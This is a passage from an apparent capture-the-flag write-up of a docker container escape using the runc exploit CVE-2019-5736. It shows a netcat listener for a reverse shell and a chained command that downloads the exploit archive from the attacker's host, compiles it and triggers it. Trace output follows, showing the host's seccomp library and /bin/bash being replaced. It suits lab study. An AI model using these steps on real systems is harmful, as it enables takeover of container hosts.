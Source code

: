 We download the second one with: `searchesploit -m linux/local/46369.md`.  
(I picked randomly between the 2, I suppose they both work)

We modify the payload of the exploit in `CVE-2019-5736/bad_init.sh` by adding our reverse shell
>![]({{ page.dirImg }}/20210507-015246.png){: .shadow}

We set up a netcat llistener on our local machine: `nc -lnvp 4242`


The docker cleans itself pretty quickly, we need to deliver and execute our exploit fast
```bash
sudo docker exec -it webapp-dev01  curl http://10.10.14.150:8000/exploit.zip --output exploit.zip &&
sudo docker exec -it webapp-dev01 unzip exploit.zip &&
sudo docker exec -it webapp-dev01 ./CVE-2019-5736/make.sh &&
sudo docker exec -it webapp-dev01 /bin/bash 
```
In order these commands will:

- Deliver the exploit archive to the docker container from our local machine
- Unzip it
- Compile the exploit
- Trigger our payload
(Below if you want to hear more on the exploit and vulnerability) 

It's now time to execute it. 

Output:
```bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  8413  100  8413    0     0   115k      0 --:--:-- --:--:-- --:--:--  117k
Archive:  exploit.zip
replace CVE-2019-5736/bad_init.sh? [y]es, [n]o, [A]ll, [N]one, [r]ename: y
  inflating: CVE-2019-5736/bad_init.sh  
replace CVE-2019-5736/make.sh? [y]es, [n]o, [A]ll, [N]one, [r]ename: ^Cnoah@thenotebook:~$ ./file.sh 
OCI runtime state failed: fork/exec /usr/bin/docker-runc: text file busy: : unknown
noah@thenotebook:~$ ./file.sh 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  8400  100  8400    0     0   102k      0 --:--:-- --:--:-- --:--:--  103k
Archive:  exploit.zip
   creating: CVE-2019-5736/
  inflating: CVE-2019-5736/bad_init.sh  
  inflating: CVE-2019-5736/make.sh   
  inflating: CVE-2019-5736/README.md  
  inflating: CVE-2019-5736/.README.md.swp  
  inflating: CVE-2019-5736/bad_libseccomp.c  
+++ dirname ./CVE-2019-5736/make.sh
++ readlink -f ./CVE-2019-5736
+ cd /opt/webapp/CVE-2019-5736
++ egrep 'libseccomp\.so'
++ sort -r
++ find /lib /lib64 /usr/lib
++ head -n1
+ SECCOMP_TARGET=/usr/lib/x86_64-linux-gnu/libseccomp.so.2.3.3
+ cp ./bad_libseccomp.c ./bad_libseccomp_gen.c
+ objdump -T /usr/lib/x86_64-linux-gnu/libseccomp.so.2.3.3
+ awk '($4 == ".text" && $6 == "Base") { print "void", $7 "() {}" }'
+ cp ./bad_init.sh /bad_init
+ gcc -Wall -Werror -fPIC -shared -rdynamic -o /usr/lib/x86_64-linux-gnu/libseccomp.so.2.3.3 ./bad_libseccomp_gen.c
+ mv /bin/bash /bin/good_bash
+ cat
+ chmod +x /bin/bash
[+] bad_libseccomp.so booted.
```